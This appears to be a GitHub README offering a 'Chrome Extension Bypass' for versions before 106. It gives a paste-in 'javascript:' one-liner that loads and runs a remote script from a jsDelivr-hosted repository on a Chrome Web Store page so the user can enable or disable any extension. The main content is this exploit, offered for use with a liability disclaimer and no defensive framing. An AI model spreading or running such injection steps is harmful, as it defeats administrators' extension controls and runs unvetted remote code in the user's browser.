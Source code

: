 WARNING: I AM NOT RESPONSIBLE FOR ANYTHING YOU DO WITH THIS

Patched in Chrome v106+ to check your chrome version goto chrome://version/

To use goto https://chrome.google.com/webstorex you will get a 404 Error but that doesn't matter replace the URL and type: "javascript:" than copy and paste: "(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/HangWithCmm/Chrome-Extention-Bypass/bypass.js';document.body.appendChild(a);}())" now you should have something like this: "javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/HangWithCmm/Chrome-Extention-Bypass/bypass.js';document.body.appendChild(a);}())" now press ENTER and you will be able to Enable/Disable any extension.
